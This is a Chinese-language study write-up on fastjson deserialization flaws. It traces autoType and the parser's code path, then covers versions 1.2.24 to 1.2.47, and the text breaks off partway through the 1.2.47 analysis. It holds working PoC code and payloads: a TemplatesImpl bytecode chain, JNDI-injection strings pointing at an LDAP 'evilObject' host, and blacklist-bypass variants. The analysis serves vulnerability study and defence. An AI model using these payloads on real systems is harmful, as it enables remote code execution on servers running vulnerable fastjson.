





# Java安全学习—fastjson
Author: H3rmesk1t

Data: 2022.02.07

## fastjson 简介

`Fastjson`是`Alibaba`开发的`Java`语言编写的高性能`JSON`库, 用于将数据在`JSON`和`Java Object`之间互相转换, 提供两个主要接口`JSON.toJSONString`和`JSON.parseObject`/`JSON.parse`来分别实现序列化和反序列化操作.

## 影响范围

```text
Fastjson < 1.2.68
```

## fastjson 学习

`fastjson`操作有两种, 一种是将`Java Bean`序列化为`JSON`字符串, 另一种是将`JSON`字符串反序列化到`Java Bean`.

### 类-JSON

将`Java Bean`序列化为`JSON`字符串的常用方法是`JSON.toJSONString()`, 该方法有很多重载方法, 其中常用的参数有如下几个:
 - 序列化特性: `com.alibaba.fastjson.serializer.SerializerFeature`, 可以通过设置多个特性到`FastjsonConfig`中全局使用, 也可以在使用具体方法中指定特性.
 - 序列化过滤器: `com.alibaba.fastjson.serializer.SerializeFilter`, 这是一个接口, 通过配置它的子接口或者实现类就可以以扩展编程的方式实现定制序列化.
 - 序列化时的配置: `com.alibaba.fastjson.serializer.SerializeConfig`, 可以添加特点类型自定义的序列化配置.

### JSON-类

将`JSON`字符串反序列化为`Java Bean`的常用方法为`parse`、`parseObject`、`parseArray`, 这三个方法也都包含着很多种重载方法, 其中常用的参数有如下几个:
 - 反序列化特性: `com.alibaba.fastjson.parser.Feature`.
 - 类的类型: `java.lang.reflect.Type`, 用来执行反序列化类的类型.
 - 处理泛型反序列化: `com.alibaba.fastjson.TypeReference`.
 - 编程扩展定制反序列化: `com.alibaba.fastjson.parser.deserializer.ParseProcess`, 例如`ExtraProcessor`用于处理多余的字段, `ExtraTypeProvider`用于处理多余字段时提供类型信息.

### 功能要点

这里来看看早期版本的`fastjson`的框架图.


主要的功能点有:
 - 使用`JSON.parse(jsonString)`和`JSON.parseObject(jsonString, Target.class)`, 两者调用链一致, 前者会在`jsonString`中解析字符串获取`@type`指定的类, 后者则会直接使用参数中的`class`.
 - `fastjson`在创建一个类实例时会通过反射调用类中符合条件的`getter`/`setter`方法.
    - 其中`getter`方法需满足条件: 
      - 方法名长于`4`.
      - 不是静态方法.
      - 以`get`开头且第`4`位是大写字母.
      - 方法不能有参数传入.
      - 继承自`Collection`|`Map`|`AtomicBoolean`|`AtomicInteger`|`AtomicLong`.
      - 此属性没有`setter`方法. 
    - `setter`方法需满足条件: 
      - 方法名长于`4`.
      - 以`set`开头且第`4`位是大写字母.
      - 非静态方法.
      - 返回类型为`void`或当前类.
      - 参数个数为`1`个.
    - 具体逻辑在`com.alibaba.fastjson.util.JavaBeanInfo.build()`中.

 - 使用`JSON.parseObject(jsonString)`将会返回`JSONObject`对象, 且类中的所有`getter`与`setter`都被调用.
 - 如果目标类中私有变量没有`setter`方法, 但是在反序列化时仍想给这个变量赋值, 则需要使用`Feature.SupportNonPublicField`参数.
 - `fastjson`在为类属性寻找`get`/`set`方法时, 调用函数`com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch()`方法, 会忽略`_`|`-`字符串, 也就是说哪怕你的字段名叫`_a_g_e_`, `getter`方法为`getAge()`, `fastjson`也可以找得到, 在`1.2.36`版本及后续版本还可以支持同时使用`_`和`-`进行组合混淆.
 - `fastjson`在反序列化时, 如果`Field`类型为`byte[]`, 将会调用`com.alibaba.fastjson.parser.JSONScanner#bytesValue`进行`base64`解码, 对应的, 在序列化时也会进行`base64`编码.

## fastjson 序列化与反序列化
### 序列化
示例代码如下:
 - Demo.java

```java
package org.h3rmesk1t.fastjson.demo;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 8:08 下午
 */
public class Demo {

    private String name;

    public Demo() {
        System.out.println("构造函数");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }
}
```

 - SerialDemo.java

```java
package org.h3rmesk1t.fastjson.demo;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 8:12 下午
 */
public class SerialDemo {

    public static void main(String[] args) {

        Demo demo = new Demo();
        demo.setName("h3rmesk1t");

        String jsonString = JSON.toJSONString(demo, SerializerFeature.WriteClassName);
        System.out.println("SerialResult with SerializerFeature.WriteClassName...");
        System.out.println(jsonString);

        String jsonStringWithoutSerializerFeatureWriteClassName = JSON.toJSONString(demo);
        System.out.println("SerialResult without SerializerFeature.WriteClassName...");
        System.out.println(jsonStringWithoutSerializerFeatureWriteClassName);
    }
}
```

 - 运行结果


注意到, 在上面的代码中存在一个关键词`SerializerFeature.WriteClassName`, 其是`toJSONString`设置的一个属性值, 设置之后在序列化的时候会多写入一个`@type`, 即写上被序列化的类名, `type`可以指定反序列化的类, 并且调用其`getter`/`setter`/`is`方法.

### 反序列化
示例代码如下:
 - UnSerialDemo.java

```java
package org.h3rmesk1t.fastjson.demo;

import com.alibaba.fastjson.JSON;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 8:25 下午
 */
public class UnSerialDemo {

    public static void main(String[] args) {

        String jsonStringWithoutType = "{\"name\":\"h3rmesk1t\"}";
        String jsonStringWithType = "{\"@type\":\"org.h3rmesk1t.fastjson.demo.Demo\",\"name\":\"h3rmesk1t\"}";

        // JSON.parse without type
        System.out.println("parse...");
        System.out.println(JSON.parse(jsonStringWithoutType));

        // JSON.parseObject without type
        System.out.println("parseObject...");
        System.out.println(JSON.parseObject(jsonStringWithoutType));

        // JSON.parseObject(text, Class) without type
        System.out.println("parseObject(text, Class)...");
        System.out.println(JSON.parseObject(jsonStringWithType, Demo.class));

        // JSON.parse with type
        System.out.println("parse...");
        System.out.println(JSON.parse(jsonStringWithType));
        
        // JSON.parseObject with type
        System.out.println("parseObject...");
        System.out.println(JSON.parseObject(jsonStringWithType));
    }
}
```

 - 运行结果


从运行结果中可以看到, 第一和第二种方法没能成功反序列化, 这是因为没法确定其到底属于那个对象, 所以只能将其转换为一个普通的`JSON`对象从而无法正确转换, 而第三种方法成功反序列化是因为其指明了对象. 在引入了`@type`后, 成功反序列化, 可以看到`parse`成功触发了`set`方法, `parseObject`同时触发了`set`和`get`方法, 因为`fastjson`存在`autoType`机制, 当用户指定`@type`时, 存在调用恶意`setter`/`getter`的情况, 这就是`fastjson`反序列化漏洞.

## fastjson 反序列化漏洞基本原理
### 反序列化漏洞基本原理
在前面的示例代码中, 我们知道了`Fastjson`的`autoType`机制, 也了解到了反序列化漏洞产生的原因是`get`或`set`方法中存在恶意操作, 以下面`demo`为例:

 - Exploit.java

```java
package org.h3rmesk1t.fastjson.demo;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 9:06 下午
 */
public class Exploit {

    private String name;

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) throws IOException {
        System.out.println("setName");
        this.name = name;
        Runtime.getRuntime().exec("open -a Calculator");
    }
}
```

 - UnExploit.java

```java
package org.h3rmesk1t.fastjson.demo;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 9:09 下午
 */
public class UnExploit {

    public static void main(String[] args) throws IOException {

//        Exploit exp = new Exploit();
//        exp.setName("h3rmesk1t");
//        String jsonString = JSON.toJSONString(exp, SerializerFeature.WriteClassName);
//        System.out.println(jsonString);

        String jsonString = "{\"@type\":\"org.h3rmesk1t.fastjson.demo.Exploit\",\"name\":\"h3rmesk1t\"}";
        System.out.println(JSON.parseObject(jsonString));
    }
}
```


### 反序列化漏洞流程分析
在`parseObject`处打上断点, 跟进`Feature#parseObject`方法, 在第一行中会调用`Feature#parse`方法.


跟进`Feature#parse`方法, 继续跟进`parse`, 这里会创建一个`DefaultJSONParser`对象, 在这个过程中会有一个判断操作, 来判断解析的字符串是`{`还是`[`, 并根据判断的结果设置`token`值, 创建完成`DefaultJSONParser`对象后进入`DefaultJSONParser#parse`方法.


跟进`DefaultJSONParser#parse`方法, 在该过程中会获取到之前设置的`token`值, 并根据`token`值进行相对应的操作, 该判断过程会创建一个空的`JSONObject`, 随后会通过`parseObject`方法进行解析.


跟进`parseObject`方法, 这里会通过`scanSymbol`获取到`@type`指定类, 然后通过`TypeUtils.loadClass`方法加载`Class`.


跟进`TypeUtils.loadClass`方法, 这里首先会从`mappings`里面寻找类, `mappings`中存放着一些`Java`内置类, 由于前面一些条件不满足, 所以最后用`ClassLoader`加载类, 在这里也就是加载`Exploit`类.


返回`clazz`值后回到上一级, 创建`ObjectDeserializer`对象, 并调用`getDeserializer`方法.


跟进`ParserConfig#getDeserializer`方法, 继续调用`getDeserializer`方法, 这里使用了黑名单限制可以反序列化的类, 但是黑名单里面只有`java.lang.Thread`.


接着回到前面的`deserialze`方法, 往下调试到达`ASM`机制生成的临时代码, 最后调用`set`和`get`里面的方法.


## Fastjson 1.2.24
这个版本的`Fastjson`有两条利用链:
 1. JdbcRowSetImpl
 2. Templateslmpl

### TemplatesImpl 反序列化
#### 分析

`TemplatesImpl`类位于`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`, 实现了`Serializable`接口, 因此它可以被序列化.

注意到该类中存在一个成员属性`_class`, 其是一个`Class`类型的数组, 数组里下标为`_transletIndex`的类会在`getTransletInstance`方法中使用`newInstance`实例化.


跟进`getTransletInstance`的调用, 发现`newTransformer`会调用`getTransletInstance`方法, 而类中的`getOutputProperties`方法又会调用`newTransformer`方法.


而`getOutputProperties`方法就是类成员变量`_outputProperties`的`getter`方法.


既然这里可以构成一条调用链, 回到最开始的`_class`, 看看其中的类是否可控, 发现在构造方法、`readObject`方法以及`defineTransletClasses`方法中有赋值的动作.


而在`getTransletInstance`方法中当`_class==null`时, 则会调用`defineTransletClasses`方法, 跟进该方法来看看代码的逻辑. 首先要求`_bytecodes`不为空, 接着就会调用自定义的`ClassLoader`去加载`_bytecodes`中的`byte[]`, 而`_bytecodes`也是该类的成员属性. 如果这个类的父类为`ABSTRACT_TRANSLET`, 也就是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`, 就会将类成员属性的`_transletIndex`设置为当前循环中的标记位, 如果是第一次调用, 就是`_class[0]`; 如果父类不是这个类, 将会抛出异常.


#### 调用链

根据上文的分析过程, 不难得到一条调用链:
 - 构造一个`TemplatesImpl`类的反序列化字符串, 其中`_bytecodes`是我们构造的恶意类的类字节码, 这个类的父类是`AbstractTranslet`, 最终这个类会被加载并使用`newInstance`实例化.
 - 在反序列化过程中, 由于`getter`方法`getOutputProperties`满足条件, 将会被`fastjson`调用, 而这个方法触发了整个漏洞利用流程.

```java
getOutputProperties() -> 
newTransformer() -> 
getTransletInstance() -> 
defineTransletClasses() / EvilClass.newInstance()
```

#### Payload
需要注意的是, 为了满足漏洞点触发之前不报异常及退出, 需要满足`_name`不为`null`, `_tfactory`不为`null`. 由于部分需要更改的私有变量没有`setter`方法, 需要使用`Feature.SupportNonPublicField`参数来触发.

 - POC.java

```java
package org.h3rmesk1t.fastjson.fastjson124;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.codec.binary.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 11:18 下午
 */
public class POC {

    public static class H3rmesk1t {

    }

    public static String makeClass() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.get(H3rmesk1t.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "H3rmesk1t" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));
        byte[] evilCode = cc.toBytecode();

        return Base64.encodeBase64String(evilCode);
    }

    public static String exploitString() throws Exception {

        String evilCodeBase64 = makeClass();
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String exploit = "{'d1no':{" +
                "\"@type\":\"" + NASTY_CLASS + "\"," +
                "\"_bytecodes\":[\"" + evilCodeBase64 + "\"]," +
                "'_name':'h3rmesk1t'," +
                "'_tfactory':{}," +
                "'_outputProperties':{}" +
                "}}\n";

        return exploit;
    }

    public static void main(String[] args) throws Exception {

        String exploit = exploitString();
        System.out.println(exploit);
        // JSON.parse(exploit, Feature.SupportNonPublicField);
        // JSON.parseObject(exploit, Feature.SupportNonPublicField);
        // JSON.parseObject(exploit, Object.class, Feature.SupportNonPublicField);
    }
}
```


 - Payload

```java
{'d1no':{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQAJgoAAwAPBwAhBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAlIM3JtZXNrMXQBAAxJbm5lckNsYXNzZXMBADJMb3JnL2gzcm1lc2sxdC9mYXN0anNvbi9mYXN0anNvbjEyNC9QT0MkSDNybWVzazF0OwEAClNvdXJjZUZpbGUBAAhQT0MuamF2YQwABAAFBwATAQAwb3JnL2gzcm1lc2sxdC9mYXN0anNvbi9mYXN0anNvbjEyNC9QT0MkSDNybWVzazF0AQAQamF2YS9sYW5nL09iamVjdAEAJm9yZy9oM3JtZXNrMXQvZmFzdGpzb24vZmFzdGpzb24xMjQvUE9DAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAFQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMABcAGAoAFgAZAQASb3BlbiAtYSBDYWxjdWxhdG9yCAAbAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAHQAeCgAWAB8BABdIM3JtZXNrMXQyOTQ5ODk5MDkyNjIxOAEAGUxIM3JtZXNrMXQyOTQ5ODk5MDkyNjIxODsBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0BwAjCgAkAA8AIQACACQAAAAAAAIAAQAEAAUAAQAGAAAALwABAAEAAAAFKrcAJbEAAAACAAcAAAAGAAEAAAAQAAgAAAAMAAEAAAAFAAkAIgAAAAgAFAAFAAEABgAAABYAAgAAAAAACrgAGhIctgAgV7EAAAAAAAIADQAAAAIADgALAAAACgABAAIAEAAKAAk="],'_name':'h3rmesk1t','_tfactory':{},'_outputProperties':{}}}
```

### JdbcRowSetImpl 反序列化
#### 分析
`JdbcRowSetImpl`类位于`com.sun.rowset.JdbcRowSetImpl`, 这条漏洞利用链的核心点是`javax.naming.InitialContext#lookup`参数可控导致的`JNDI`注入.

由于`fastjson`的触发点是利用`set`/`get`方法, 因此在`JdbcRowSetImpl`中寻找可利用的方法, 跟进`setAutoCommit`方法, 在`this.conn`为空时, 会调用`this.connect`方法.



跟进`connect`方法, 调用了`javax.naming.InitialContext#lookup`方法, 参数从成员变量`dataSource`中获取.


#### 调用链

```java
JdbcRowSetImpl对象恢复 ->
setDataSourceName方法调用 ->
setAutocommit方法调用 ->
context.lookup(datasourceName)调用
```
#### Payload

 - POC.java

```java
package org.h3rmesk1t.fastjson.fastjson124;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/8 12:25 上午
 */
public class POC2 {

    public static void main(String[] args) {

        String jsonString = "{\n" +
                "\t\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "\t\"dataSourceName\":\"ldap://127.0.0.1:8888/evilObject\",\n" +
                "\t\"autoCommit\":true\n" +
                "}";
        JSON.parse(jsonString);
        JSON.parseObject(jsonString);
        JSON.parseObject(jsonString, Feature.SupportNonPublicField);
    }
}
```



```java
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
	"autoCommit":true
}
```

## Fastjson 1.2.25反序列化漏洞
在版本`Fastjson 1.2.2`中, 官方对之前的反序列化漏洞进行了修复, 引入了`checkAutoType`安全机制, 默认情况下`autoTypeSupport`关闭, 不能直接反序列化任意类, 而打开`AutoType`之后, 是基于内置黑名单来实现安全的, `fastjson`也提供了添加黑名单的接口.

安全更新主要集中在`com.alibaba.fastjson.parser.ParserConfig`, 查看类上出现了几个成员变量:
 - `autoTypeSupport`: 用来标识是否开启任意类型的反序列化, 并且默认关闭.
 - `denyList`: 反序列化类的黑名单.
 - `acceptList`: 是反序列化白名单.


黑名单`denyList`包括:

```java
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

添加反序列化白名单方法:
 - 使用代码进行添加: `ParserConfig.getGlobalInstance().addAccept("org.h3rmesk1t.fastjson.,org.javaweb.")`
 - 加上JVM启动参数: `-Dfastjson.parser.autoTypeAccept=org.h3rmesk1t.fastjson`
 - 在`fastjson.properties`中添加: `fastjson.parser.autoTypeAccept=org.h3rmesk1t.fastjson`

### 分析

跟进`ParserConfig#checkAutoType`, 可以看到, 如果开启了`autoType`, 则会先判断类名是否在白名单中, 如果在, 就使用`TypeUtils.loadClass`加载; 不然的话则会使用黑名单判断类名的开头, 如果匹配就抛出异常.


如果未开启`autoType`, 则会先使用黑名单匹配, 再使用白名单匹配和加载. 最后如果要反序列化的类和黑白名单都未匹配时, 只有开启了`autoType`或者`expectClass`不为空, 也就是指定了`Class`对象时才会调用`TypeUtils.loadClass`加载.


接着跟进`TypeUtils.loadClass`方法, 此方法中出现了逻辑漏洞, 这个类在加载目标类之前为了兼容带有描述符的类名, 使用了递归调用来处理描述符中的`[`、`L`、`;`字符, 而攻击者可以使用带有描述符的类绕过黑名单的限制, 并且在类加载过程中, 描述符还会被处理掉. 


因此, 漏洞利用的思路为: 需要开启`autoType`, 使用`[`、`L`、`;`字符来进行黑名单的绕过.

### Payload

```java
{
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
	"autoCommit":true
}
```

## Fastjson 1.2.42
### 分析

在版本`Fastjson 1.2.42`中, `fastjson`继续延续了黑白名单的检测模式, 但是为了防止安全研究人员根据黑名单中的类进行反向研究, 将黑名单类从白名单修改为使用`HASH`的方式进行对比, 用来对未更新的历史版本进行攻击. 同时, 作者对之前版本一直存在的使用类描述符绕过黑名单校验的问题尝试进行了修复.

`com.alibaba.fastjson.parser.ParserConfig`将原本的明文黑名单转为使用了`Hash`黑名单. 并且在`checkAutoType`中加入判断, 如果类的第一个字符是`L`结尾是`;`, 则使用`substring`进行了去除. 但是, 在最后处理时是递归处理, 因此只要对描述符进行双写即可绕过.



### Payload

```java
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
	"autoCommit":true
}
```

## Fastjson 1.2.43
### 分析
这个版本主要是修复上一个版本中双写绕过的问题.

```java
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    className = className.substring(1, className.length() - 1);
}
```

从代码中可以看到, 用来检查的`checkAutoType`代码添加了判断, 如果类名连续出现了两个`L`将会抛出异常. 这样使用`L`、`;`绕过黑名单的思路就被阻挡了, 但是在`loadClass`的过程中, 还针对`[`也进行了处理和递归, 因此依旧可以进行绕过.

### payload

```java
{
    "@type":"[com.sun.rowset.JdbcRowSetImpl"[{,
    "dataSourceName":"ldap://127.0.0.1:8888/evilObject",
	"autoCommit":true
}
```

## Fastjson 1.2.44
### 分析
这个版本主要是修复上一个版本中使用`[`绕过黑名单防护的问题. 

```java
long BASIC = -3750763034362895579L;
long PRIME = 1099511628211L;
long h1 = (-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L;
if (h1 == -5808493101479473382L) {
    throw new JSONException("autoType is not support. " + typeName);
} else if ((h1 ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    throw new JSONException("autoType is not support. " + typeName);
}
```

从代码中可以看到, 在`checkAutoType`中添加了新的判断, 如果类名以`[`开始则直接抛出异常. 因此, 由字符串处理导致的黑名单绕过也就告一段落了.

## Fastjson 1.2.45
### 分析

在此版本爆出了一个黑名单绕过.

### payload

```java
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:8888/evilObject"
    }
}
```

## Fastjson 1.2.47
### 分析

在`Fastjson 1.2.47`版本时, 爆出了最为严重的漏洞, 可以在不开启`AutoTypeSupport`的情况下进行反序列化的利用, 并且该版本出现的绕过问题依旧是在`checkAutoType`方法中.

分析一下这次绕过的关键代码, 在下面这段代码之前是之前熟悉的补丁, 即类名以`[`开头抛出异常和类名以`L`开头以`;`结尾抛出异常. 当都符合时进入下面这段代码的逻辑, `autoTypeSupport`为`true`且`expectClass`不为`null`时, 先对比`acceptHashCodes`加载白名单项, 符合时则调用`TypeUtils.loadClass`方法. 当不在白名单中时, 对比`denyHashCodes`进行黑名单匹配, 如果黑名单有匹配并且`TypeUtils.mappings`里没有缓存这个类时, 则抛出异常. 接着尝试在`TypeUtils.mappings`中查找缓存的`class`以及在`deserializers`中查找这个类, 如果找到了对应的`class`, 则会进行`return`.

```java
// autoTypeSupport 为 true 时，先对比 acceptHashCodes 加载白名单项
if (this.autoTypeSupport || expectClass != null) {
    hash = h3;

    for(i = 3; i < className.length(); ++i) {
        hash ^= (long)className.charAt(i);
        hash *= 1099511628211L;
        if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
            clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
            if (clazz != null) {
                return clazz;
            }
        }
        // 在对比 denyHashCodes 进行黑名单匹配
        // 如果黑名单有匹配并且 TypeUtils.mappings 里没有缓存这个类
        // 则抛出异常
        if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }
}

// 尝试在 TypeUtils.mappings 中查找缓存的 class
if (clazz == null) {
    clazz = TypeUtils.getClassFromMapping(typeName);
}

// 尝试在 deserializers 中查找这个类
if (clazz == null) {
    clazz = deserializers.findClass(typeName);
}

// 如果找到了对应的 class，则会进行 return
if (clazz != null) {
    if (expectClass != null
            && clazz != java.util.HashMap.class
            && !expectClass.isAssignableFrom(clazz)) {
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    }

    return clazz;
}
```

由以上代码分析过程可知, 这里存在一个逻辑问题: `autoTypeSupport`为`true`时, `fastjson`也会禁止一些黑名单的类反序列化, 但是有一个判断条件, 即当反序列化的类在黑名单中且`TypeUtils.mappings`中没有该类的缓存时才会抛出异常.

在`autoTypeSupport`为默认的`false`时, 程序直接检查黑名单并抛出异常, 在这部分无法绕过,所以关注点就在判断之前, 程序有在`TypeUtils.mappings`中和`deserializers`中尝试查找要反序列化的类, 如果找到了, 则就会`return`, 这就避开下面`autoTypeSupport`默认为`false`时的检查.

根据上面的思路, 先跟进`deserializers`, 其是一个`IdentityHashMap`对象, 能向其中赋值的函数有:
 - getDeserializer: 这个类用来加载一些特定类, 以及有`JSONType`注解的类, 在`put`之前都有类名及相关信息的判断, 无法利用.
 - initDeserializers: 无入参, 在构造方法中调用, 写死一些认为没有危害的固定常用类, 无法利用.
 - putDeserializer: 被前两个函数调用, 无法控制入参, 无法利用.


接着看看`TypeUtils.mappings`, 这是一个`ConcurrentHashMap`对象, 能向其中赋值的函数有:
 - addBaseClassMappings: 无入参, 加载.
 - loadClass: 关键函数.

跟进一下`loadClass`方法, 在如下代码中不难看出, 只要能够控制这个方法的参数, 就可以往`mappings`中写入任意类名.

```java
try{
    // 如果 classLoader 非空，cache 为 true 则使用该类加载器加载并存入 mappings 中
    if(classLoader != null){
        clazz = classLoader.loadClass(className);
        if (cache) {
            mappings.put(className, clazz);
        }
        return clazz;
    }
} catch(Throwable e){
    e.printStackTrace();
    // skip
}
// 如果失败，或没有指定 ClassLoader ，则使用当前线程的 contextClassLoader 来加载类，也需要 cache 为 true 才能写入 mappings 中
try{
    ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
    if(contextClassLoader != null && contextClassLoader != classLoader){
        clazz = contextClassLoader.loadClass(className);
        if (cache) {
            mappings.put(className, clazz);
        }
        return clazz;
    }
} catch(Throwable e){
    // skip
}
// 如果还是失败，则使用 Class.forName 来获取 class 对象并放入 mappings 中
try{
    clazz = Class.forName(className);
    mappings.put(className, clazz);
    return clazz;
} catch(Throwable e){
    // skip
}
```

`loadClass`一共有三个重载方法, 这里重点看一下两个参数的`loadClass`方法在哪调用.


跟进`com.alibaba.fastjson.serializer.MiscCodec#deserialze`方法, 这个类是用来处理一些乱七八糟类的反序列化类, 其中就包括`Class.class`类, 如果`parser.resolveStatus`为`2`时, 进入`if`语句, 会解析`val`中的内容放入`objVal`中, 然后传入`strVal`中.




后面的逻辑如果`class`是`Class.class`时, 将会调用`loadClass`方法, 将`strVal`进行类加载并缓存, 这就完成了恶意类的加载.


根据上面的思路, 调试一下`{"@type":"java.lang.Class","val":"aaaaa"}`, `JSON.parseObject`先调用`DefaultJSONParser`对`JSON`进行解析.


